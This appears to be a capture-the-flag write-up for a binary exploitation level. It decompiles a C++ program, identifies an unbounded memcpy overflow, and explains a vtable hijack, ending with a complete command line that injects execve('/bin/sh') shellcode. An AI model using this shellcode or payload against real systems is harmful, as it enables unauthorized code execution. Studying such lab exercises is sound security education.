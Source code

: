 Here is the decompiled code :

```c
void main(int param_1,int param_2)

{
  N *this;
  N *this_00;
  
  if (param_1 < 2) {
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  this = (N *)operator.new(0x6c);
  N::N(this,5);
  this_00 = (N *)operator.new(0x6c);
  N::N(this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (*(code *)**(undefined4 **)this_00)(this_00,this);
  return;
}
```

We have a N class :

```c
void __thiscall N::N(N *this,int param_1)

{
  *(undefined ***)this = &PTR_operator+_08048848;
  *(int *)(this + 0x68) = param_1;
  return;
}

/* N::setAnnotation(char*) */

void __thiscall N::setAnnotation(N *this,char *param_1)

{
  size_t __n;

  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
```

In the main function, `N::setAnnotation` is called, which contains a call to `memcpy()` which is vulnerable to overflow.

With the memcpy we do with the first N object, we will do a vtable hijack exploit, which means we will overwrite its vtable so that when it will call a method, the address will point to our malicious code.

So just after the offset of our buffer, we input the address of the new memcpy() which can be found with `ltrace`.

Address of memcpy() : 0x0804a00c
Offset : 108
Shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80` (found here : https://shell-storm.org/shellcode/files/shellcode-811.html)

However the hijacked vtable needs an address for its method, and we want to execute the shellcode we just memcpy'ied so we input the address of the new memcpy at the begining of our input. However since we added 4 bytes, we must offset it by 4.

Payload will look something like this :
`[ addr of the begining of shellcode ] + [ shellcode ] + [ padding ] + [ addr of memcpy ]`

Result : `./level9 $(python -c 'print("\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08")')`

